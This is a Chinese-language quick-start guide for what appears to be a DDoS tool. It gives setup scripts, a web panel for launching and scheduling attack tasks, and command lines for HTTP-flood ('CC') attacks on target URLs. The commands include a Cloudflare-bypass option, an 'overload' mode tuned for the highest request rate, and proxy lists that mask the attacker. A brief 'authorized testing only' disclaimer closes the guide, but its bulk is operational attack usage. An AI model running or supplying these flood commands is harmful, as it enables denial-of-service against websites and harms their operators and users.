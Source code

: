 # 🚀 快速开始指南

## 一键安装使用

### 方法1: 全自动安装
```bash
./setup.sh
```

### 方法2: 快速启动Web面板
```bash
./start_panel.sh
```

## 🌐 Web控制面板

启动后访问：
- **本地**: http://localhost:5000  
- **远程**: http://你的IP:5000

### 面板功能
- 📊 **实时监控**: CPU、内存、网络
- 📝 **任务管理**: 创建、启动、停止任务  
- 📜 **实时日志**: WebSocket推送
- ⏰ **定时任务**: 自动启动/停止

## 💻 命令行快速使用

### 基础攻击
```bash
# 标准CC攻击
python3 main.py cc https://target.com 100 10

# 超负荷模式 (推荐)
python3 main.py cc https://target.com 500 50 --fire-and-forget --overload

# CF绕过攻击
python3 main.py cc https://cf-site.com 100 10 --cf-bypass
```

### 极限性能模式
```bash
python3 main.py cc https://target.com 2000 200 \
  --overload \
  --fire-and-forget \
  --burst \
  --no-delay \
  --max-connections 5000
```

## ⚡ 超负荷模式特点

- **🔥 纯发送**: 不接收响应，RPS提升500%+
- **🏊 连接池**: 智能复用，性能提升300%+  
- **💾 内存优化**: 激进回收，占用减少40%
- **💥 爆发模式**: 动态扩展，峰值性能
- **⚡ 无延迟**: 极限速度模式

## 📡 代理配置

编辑代理文件：
```bash
# SOCKS5代理 (推荐)
echo "your-proxy:1080" >> socks5.txt

# HTTP代理
echo "your-proxy:8080" >> http_proxies.txt
```

## ⚠️ 重要提醒

**仅用于授权的安全测试！**

1. ✅ 获得目标系统授权
2. ✅ 遵守法律法规  
3. ✅ 用于安全研究
4. ❌ 禁止恶意攻击

## 🆘 需要帮助？

- 📖 详细文档: [README.md](README.md)
- 🐛 问题报告: 创建Issue
- 💬 技术支持: 查看故障排除

